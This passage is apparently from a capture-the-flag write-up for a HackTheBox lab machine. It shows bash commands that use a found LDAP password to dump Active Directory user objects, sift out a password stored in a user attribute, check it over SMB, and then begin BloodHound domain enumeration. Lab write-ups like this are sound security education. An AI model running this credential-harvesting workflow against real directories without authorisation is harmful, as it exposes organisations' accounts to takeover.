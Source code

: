 ```bash
echo 'domain="support.htb"' >> .env && . ./.env # add domain to .env
ldap_password='' # Password we found for ldap user
windapsearch -j \
  -d "$domain" \
  -u "ldap" \
  -p "$ldap_password" \
  -m "users" \
  --attrs "*" \
  -o ./users.json
```
{:.nolineno}

Sure enough, the credentials are valid and we successfully gather the user objects into a new file called `users.json`{:.filepath}. Then we'll begin to process the data and look for any values that spark our interest using [jq](https://github.com/stedolan/jq) and some classic GNU utilities.

```bash
jq -r '..|strings' ./users.json |
  sort -u |
  awk '{print length,$0}' |
  sort -n |
  sed 's/[^ ]* //' |
  tee ./temp.txt
```
{:.nolineno}

This should get us every string value written to `temp.txt`{:.filepath} with no duplicates. The file contains a lot of SIDs, UUIDs, Dates, and other strings that are of little interest to us, but it also has one string on line 164 that has the structure of a password.

```bash
cat -n ./temp.txt | more
```
{:.nolineno}

We find which object and key the value is assigned to using the `jq` command once again.

```bash
jq ".[]|select(..==\"$suspectedPassword\")" ./users.json
```
{:.nolineno}

The string seems to be assigned to the info attribute of the user **support**. Could this be the password for this user?

```bash
echo "$suspectedPassword" |
  smbclient -U "support" -L "//$rhost"
```
{:.nolineno}

I guess so! Let's save those credentials and move on with some domain enumeration.

## Domain Enumeration

We'll be using [BloodHound.py](https://github.com/fox-it/BloodHound.py) to collect the domain information, and [BloodHound](https://github.com/BloodHoundAD/BloodHound) to graph it.
